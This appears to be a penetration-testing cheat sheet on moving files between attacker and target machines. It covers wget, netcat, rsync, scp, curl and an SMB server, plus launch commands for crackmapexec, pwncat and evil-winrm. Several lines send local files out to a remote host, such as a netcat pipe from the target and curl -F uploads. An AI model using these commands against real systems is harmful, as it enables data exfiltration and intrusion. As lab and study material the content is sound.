 ### WGET

Mirror an HTTP server with arbitrary files
```
wget --recursive --no-parent http://${box_ip}/
```

Mirror an FTP server
```
wget -m --user=username --password=password ftp://${box_ip}
```

### Netcat

On attacker server:
```bash
nc -l -p 1234 -q 1 > FILENAME < /dev/null
```

On target server:

```bash
cat FILENAME | netcat ${box_ip} 1234
```

### rsync

```bash
rsync -a /home/user/Downloads/file.txt root@5.182.18.49:/home/Files
rsync -avz /opt/lulz USER@${box_ip}:/dev/shm/
```

### SCP

```
scp -r ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r REMOTE_USER@${box_ip}:dir/file.txt ./file.txt

scp -r -i id_rsa ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r -i id_rsa REMOTE_USER@${box_ip}:dir/file.txt ./file.txt
```

### Curl

```bash
curl http://${box_ip}/FILENAME -o FILENAME

curl -u USERNAME:PASSWORD http://${box_ip} -o FILENAME

curl ftp://${box_ip}/FILENAME -user USERNAME:PASSWORD -o FILENAME

curl -T FILENAME ${box_ip} -user USERNAME:PASSWORD

curl -F ‘data=@path/to/local/file’ ${box_ip}

curl -F 'img_avatar=@/home/file.txt' http://${box_ip}/upload

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://${box_ip}/upload

curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://${box_ip}/upload
```

### Chisel

[get chisel here](https://github.com/jpillora/chisel/)
```
```

### SMB server

```bash
sudo python3 ${imp_dir}/smbserver.py -smb2support -username <SHARE_USER> -password <SHARE_PASS> -ip $attack_ip <SHARE_NAME> <SHARE_PATH>
```


### Crackmapexec

```bash
docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

### PWNCat
```bash
docker run -v "./":/work -t pwncat ${box_ip} LPORT
```

### EvilWinRM

```bash
export scripts_dir='/opt/server/ps_scripts/'; export exe_dir='/opt/server/exe/'; docker run --rm -ti --name evil-winrm -v ${scripts_dir}:/ps1_scripts -v ${exe_dir}:/exe_files -v ${pwd}:/data oscarakaelvis/evil-winrm
```

